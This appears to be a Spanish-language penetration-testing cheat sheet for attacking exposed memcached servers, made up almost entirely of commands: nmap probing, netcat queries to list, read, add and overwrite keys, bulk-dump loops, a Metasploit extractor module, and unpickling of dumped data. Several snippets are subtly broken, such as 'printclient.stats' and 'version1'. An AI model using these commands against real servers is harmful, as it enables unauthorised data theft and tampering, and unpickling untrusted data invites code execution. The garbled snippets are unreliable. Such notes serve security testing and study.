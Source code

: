 ## Info
### Nmap
```
nmap -p port --script memcached-info IP
```
### nc/Telnet
#### Conexion
```bash
nc IP PORT
```
#### Version 
```bash
echo -e 'version1\r\nquit\r\n' | nc IP PORT
```
#### Obtener la lista de keys 
```python
from pymemcache.client.base import Client
import pprint
client = Client(('IP', PORT))
pp = pprint.PrettyPrinter(indent=4)
for i in range(0 , 7):
  pp.pprint(client.stats("cachedump",i,"0"))
```
#### Obtener el valor de una key
```bash
echo -e 'get KEYNAME1\r\nquit\r\n' | nc IP PORT
```
##### JSONIFY Data usando pickle
```bash
echo -e "get data\r\nquit\r\n" | nc IP PORT > data
python -c 'import pickle;print pickle.load(open("data"));'
```
#### Obtener el numero total de parejas key value en el servidor
```
echo 'stats items1\r\nquit\r\n' | nc IP PORT | grep 'number '
```
Y sumamos los numeros de cada item 

##### Python Implementation

```python
python -c 'from pymemcache.client.base import Client; client = Client(("IP", PORT)); printclient.stats()["curr_items"]'
```
#### Añadir una clave-valor nueva
```bash
nc IP PORT
> add CLAVE 0 0 LENGHT
> VALUE 
```
#### Actualizar el valor de una clave
```bash
nc IP PORT
> replace CLAVE 0 0 LENGHT
> VALUE 
```
#### Dump

##### Bash
```bash
xargs -L1 -I% sh -c 'echo "get KEYNAME" | nc IP PORT'
for key in $(memcdump --server=IP); do echo ------ $key ------; memccat --server=IP $key; done
for key in $(memcdump --server=target-1); do echo ------ $key ------; memccat --server=target-1 $key; done
```
##### Metasploit module
```
auxiliary/gather/memcached_extractor
```
